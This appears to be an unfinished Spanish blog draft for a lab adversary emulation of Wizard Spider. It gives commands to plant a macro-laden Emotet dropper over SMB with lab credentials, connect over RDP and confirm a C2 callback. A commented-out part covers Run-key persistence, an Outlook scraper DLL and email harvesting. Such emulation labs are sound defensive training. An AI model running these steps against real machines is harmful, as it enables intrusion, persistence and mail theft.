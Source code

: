 ```yaml
---
title: Plan de Emulación - Escenario 1 de Wizard Spider
---
```


# Preparación del entorno:
- Verificar conectividad a red
- En la maquina atante:
    - Instalar smbclient y verificar 
    
```bash
    sudo apt install smbclient  
    smbclient --version
```

![image.png](/assets/images/2025-06-08-emulacion/Captura desde 2025-06-23 18-57-54.png)  
    
# FASE 1: COMPROMISO INICIAL – Emotet Dropper

Objetivo: Infectar a Dorothy con un documento Word malicioso que descarga y ejecuta una DLL simulando Emotet.

Procedimiento:


## 1. Subir el documento malicionso a Dorothy, colocarlo en el escritorio.

```bash
    smbclient -U 'oz\judy' //10.0.0.7/C$ -c "put wizard_spider/Resources/Emotet_Dropper/ChristmasCard.docm Users/judy/Desktop/ChristmasCard.docm;" "Passw0rd!"
```

![image.png](/assets/images/2025-06-08-emulacion/Captura desde 2025-06-23 19-45-48.png) 

## 2. Iniciar servidor:

```bash
    cd ~/wizard_spider/Resources/control_server
    sudo ./controlServer
```

![image.png](/assets/images/2025-06-08-emulacion/Captura desde 2025-06-23 19-51-11.png)  

## 3. Conectarte por RDP a Dorothy:

```bash
    xfreerdp +clipboard /u:oz\\judy /p:"Passw0rd!" /v:10.0.0.7
```

![image.png](/assets/images/2025-06-08-emulacion/Captura desde 2025-06-23 19-23-27.png)  

## 4. Ejecutar ataque:

### 1. Ejecutar el dropper de Emotet 

Simular la acción del usuario al abrir el documento malicioso, lo que desencadenará la ejecución de Emotet.

- Dentro de la ventana de la sesión RDP de Dorothy, ve al escritorio del usuario Judy.
- Buscar el documento llamado ChristmasCard.docm.
- Hacer doble clic en el documento para abrirlo con Microsoft Word.
- Word mostrará una advertencia de seguridad sobre las macros. Habilita las macros cuando se te solicite. Esto es crítico para que el malware se ejecute.
- Después de habilitar las macros, deberías ver una ventana de terminal parpadeando brevemente (puede que apenas la notes) mientras se ejecuta la DLL de Emotet. - Espera unos segundos para que se complete la ejecución.

![image.png](/assets/images/2025-06-08-emulacion/Captura desde 2025-06-23 20-14-11.png)  
![image.png](/assets/images/2025-06-08-emulacion/Captura desde 2025-06-23 20-14-47.png)  


### 2. Confirmar la sesión C2 (20 minutos)

Verificar que Emotet se ha ejecutado correctamente en Dorothy y ha establecido una conexión con tu servidor de control en Kali.

- Volver a la terminal en tu máquina atacante (Kali Linux) que renombraste como "Control Server" (donde ejecutaste sudo ./controlServer).
- Se debe visualizar un nuevo "callback" o sesión entrante en la salida del servidor. Esto indica que Emotet en Dorothy se ha conectado exitosamente. Busca mensajes que confirmen una nueva conexión o sesión.





---


# posibles titulos:

    “Emulación Controlada de Wizard Spider, APT en un Entorno Simulado”

    “Aplicación de Técnicas de Adversary Emulation para la Comprensión de Wizard Spider en un Laboratorio Virtual”

    “Simulación de un Ataque de Wizard Spider: Un Enfoque Basado en Escenarios Reales”

    “Plan de Emulación de Wizard Spider en un Entorno Controlado#

    “Emulación Táctica de Wizard Spider: De Emotet a Ryuk”

    “Emulación Práctica de APTs: Wizard Spider en un Laboratorio Virtualizado”

    “Diseño y Ejecución de un Escenario de Emulación Basado en Wizard Spider”

    “Estudio Práctico del Comportamiento de Wizard Spider mediante Adversary Emulation con CALDERA y Técnicas MITRE ATT&CK”

--- 
<!-- 
# FASE 2: PERSISTENCIA de Emotet Registry Key

Objetivo: Simular persistencia modificando el registro.
Procedimiento:

## 1. Establecer persistencia:

En la terminal de la máquina atacante, ejecutar el siguiente comando:

```bash
    ./evalsC2client.py --set-task DOROTHY_DABB41A5 1
```

## 2. Confirmar en Dorothy que se creó la clave:
- Ruta: HKCU\Software\Microsoft\Windows\CurrentVersion\Run
- Clave: blbdigital, Valor: rundll32.exe %userprofile%\Ygyhlqt\Bx5jfmo\R43H.dll,Control_RunDLL


--- 

# Fase 3: Descubrimiento de Host de Emotet y Recolección de Credenciales

## 1. Enumerar procesos:

Ejecuta en la terminal del cliente:

```bash
    ./evalsC2client.py --set-task DOROTHY_DABB41A5 2
```
Esto hará que Emotet enumere los procesos en Dorothy.

## 2. Descargar Outlook Scraper DLL:

```bash
    ./evalsC2client.py --set-task DOROTHY_DABB41A5 3
```
Emotet descargará la DLL del scraper de Outlook. 

## 3.  Cargar Outlook Scraper DLL:

```bash
    ./evalsC2client.py --set-task DOROTHY_DABB41A5 4
```
Emotet cargará la DLL en su espacio de memoria

## 4.  Extraer contenido de correo electrónico de Outlook:

```bash
    ./evalsC2client.py --set-task DOROTHY_DABB41A5 5
```
Emotet utilizará PowerShell para extraer información de correo electrónico.

## 5.  Extraer direcciones de correo electrónico:
```bash
    ./evalsC2client.py --set-task DOROTHY_DABB41A5 8
```
Emotet recolectará direcciones de correo electrónico. 


Se obtendra el acceso al usuario bill@oz.local para la siguiente fase.

```bash

```


```bash

``` -->
